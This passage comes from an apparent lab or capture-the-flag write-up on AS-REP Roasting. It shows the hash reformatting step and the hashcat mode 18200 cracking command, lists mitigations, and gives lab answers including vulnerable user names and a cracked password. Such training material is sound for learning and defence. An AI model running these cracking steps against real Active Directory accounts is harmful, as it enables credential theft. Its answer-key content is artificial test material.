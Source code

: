 1.) Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file

2.) Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....

Use the same wordlist that you downloaded in task 4

3.) `hashcat -m 18200 hash.txt Pass.txt` - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200

![https://i.imgur.com/eOqGVrm.png](https://i.imgur.com/eOqGVrm.png)

# AS-REP Roasting Mitigations -

- Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
- Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

---

### What hash type does AS-REP Roasting use?

![./images/Untitled7.png](./images/Untitled7.png)

```bash
Kerberos 5 AS-REP etype 23
```

### Which User is vulnerable to AS-REP Roasting?

```bash
User3
```

### What is the User's Password?

![./images/Untitled8.png](./images/Untitled8.png)

```bash
# Based on this command : hashcat -m 18200 hashKRB Pass.txt
Password3
```

### Which Admin is vulnerable to AS-REP Roasting?

```bash
Admin3
```

### What is the Admin's Password?

![./images/Untitled9.png](./images/Untitled9.png)
